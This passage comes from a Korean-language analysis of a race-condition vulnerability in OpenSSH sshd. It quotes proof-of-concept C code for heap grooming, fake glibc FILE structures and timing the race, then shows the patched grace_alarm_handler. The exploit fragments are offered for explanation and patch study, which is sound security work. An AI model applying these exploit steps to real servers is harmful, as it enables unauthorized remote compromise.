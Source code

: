 ```c
      send_packet (sock, 5, small_hole, sizeof (small_hole));
    }

  // Packet c: Write fake headers, footers, vtable and _codecvt pointers
  for (int i = 0; i < 27; i++)
    {
      unsigned char fake_data[4096];
      create_fake_file_structure (fake_data, sizeof (fake_data),
                                  GLIBC_BASES[0]);
      send_packet (sock, 5, fake_data, sizeof (fake_data));
    }

  // Packet d: Ensure holes are in correct malloc bins (send ~256KB string)
  unsigned char large_string[MAX_PACKET_SIZE - 1];
  memset (large_string, 'E', sizeof (large_string));
  send_packet (sock, 5, large_string, sizeof (large_string));
}
```

`prepare_heap`이 완료되면 `time_final_paket` 함수를 통해서 공개키가 파싱되는 타이밍을 알아냅니다.
```c
void
time_final_packet (int sock, double *parsing_time)
{
  double time_before = measure_response_time (sock, 1);
  double time_after = measure_response_time (sock, 2);
  *parsing_time = time_after - time_before;

  printf ("Estimated parsing time: %.6f seconds\n", *parsing_time);
}
```

위에서 알아낸 타이밍을 기반으로 레이스 컨디션을 수행합니다.
```c
...
attempt_race_condition (sock, parsing_time, glibc_base)
...
```

# Patch

`sshd.c`에 위치한 <a href="https://github.com/openssh/openssh-portable/blob/V_9_7/sshd.c#L353">grace_alarm_handler</a> 함수가 `sshd-session.c`로 옮겨가며 다음과 같이 코드가 수정되었습니다.

```c
/*
 * Signal handler for the alarm after the login grace period has expired.
 * As usual, this may only take signal-safe actions, even though it is
 * terminal.
 */
static void
grace_alarm_handler(int sig)
{
	/*
	 * Try to kill any processes that we have spawned, E.g. authorized
	 * keys command helpers or privsep children.
	 */
	if (getpgid(0) == getpid()) {
		struct sigaction sa;

		/* mask all other signals while in handler */
		memset(&sa, 0, sizeof(sa));
		sa.sa_handler = SIG_IGN;
		sigfillset(&sa.sa_mask);
		sa.sa_flags = SA_RESTART;
```